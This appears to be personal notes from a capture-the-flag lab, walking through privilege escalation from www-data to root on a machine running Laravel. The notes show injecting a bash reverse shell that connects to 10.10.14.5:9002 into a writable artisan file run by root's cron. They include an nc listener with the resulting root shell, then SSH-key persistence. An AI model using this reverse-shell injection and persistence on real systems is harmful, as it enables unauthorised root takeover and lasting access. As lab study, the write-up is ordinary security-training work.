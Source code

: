 # Priv Esc from www-data to root (directly)

- We can cat out the user.txt without being noulis from /home/noulis
- Intersting things:
	-  \* \* \* \* \*       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
	-  Some open and listening ports
	```bash
	tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      - Mysql                
	tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      - RDNS
	```
	- Interesting files:
	```bash
	/home/noulis/.composer/cache/files/mockery/mockery/f30d894582b8b548b641819cd37c4cfc11d5b315.zip 
	/home/noulis/.composer/cache/files/tijsverkoyen/css-to-inline-styles/b52e5b78653e57b3b07937c1f84109ac7f77e5e0.zip
	/home/noulis/.composer/cache/files/sebastian/code-unit-reverse-lookup/9fdb38e356a0265a2dd6b64495413906b9366038.zip
	/home/noulis/.composer/cache/files/sebastian/resource-operations/fd2c0f591ee5fee7aa3eb70f20a1d64c1dc26e8d.zip
	/home/noulis/.composer/cache/files/sebastian/diff/d845e8b0ee3d707d4b13b9febac4e7a0e8b22fe5.zip
	/home/noulis/.composer/cache/files/sebastian/global-state/a0ef5bf736af85b66572f9ed232aa35c18fe5fb7.zip
	/home/noulis/.composer/cache/files/sebastian/exporter/81e14d73852681aabe5c5a9d8be1ef2045a9170a.zip
	/home/noulis/.composer/cache/files/sebastian/comparator/bdc0b01e0827c360d54386fe60dfc6bd65168f80.zip
	/home/noulis/.composer/cache/files/sebastian/version/c315a200d32565a6d8ebb3495cb5ae34c5ced3c8.zip
	/home/noulis/.composer/cache/files/sebastian/environment/72b70c30c0946406c4562db7b7c647d084a87e12.zip
	/home/noulis/.composer/cache/files/sebastian/recursion-context/82276e6cc560a972510bb0c2dc0aa78fa4701777.zip
	```
	- Laravel files
	 ```bash
	 /var/www/laravel/.env
	 ```
- Coming back to the first file /var/www/laravel/artisan, we see that it is run every minute. Also it in the folder which can be edited by www-data
- So we can edit artisan bu adding  `exec("bash -c 'bash -i >& /dev/tcp/10.10.14.5/9002 0>&1'");` into the script after <?php...?> tag first encountered .
- Also open a listener on port 9002.
	```bash
	nc -lnvp 9002
	listening on [any] 9002 ...
	
	connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 34696
	/bin/sh: 0: can't access tty; job control turned off
	# id
	uid=0(root) gid=0(root) groups=0(root)
	# 
	```
- Cat out the root.txt. Create a .ssh folder. Crete our own ssh-keygen on our local machine. Append pub key to the ssh folder in the other machine. Login as root when wanted.